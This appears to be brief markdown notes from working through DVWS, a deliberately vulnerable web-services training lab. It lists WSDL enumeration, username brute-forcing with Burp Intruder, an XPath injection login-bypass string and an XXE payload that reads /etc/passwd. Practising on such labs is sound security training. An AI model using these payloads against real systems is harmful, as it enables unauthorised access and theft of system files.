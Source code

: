 ### WSDL Enumeration
URL: dvws/vulnerabilities/wsdlenum/service.php?wsdl

check_user_id with value root

### WSDL Scanning 
* Load the check_user_information envelope into Intruder
* select username space 
* add username lists to payload



### XPATH Injection
URL: /dvws/vulnerabilities/xpath/xpath.php 
* username: foo' or 1=1 or 'a'='a 
* password: bar


### XXE 2
payload

``` 
<!DOCTYPE foo [<!ENTITY xxe2q1pa SYSTEM "file:///etc/passwd"> ]><uservalue>
<value>DVWS&xxe2q1pa;</value>
</uservalue>
```
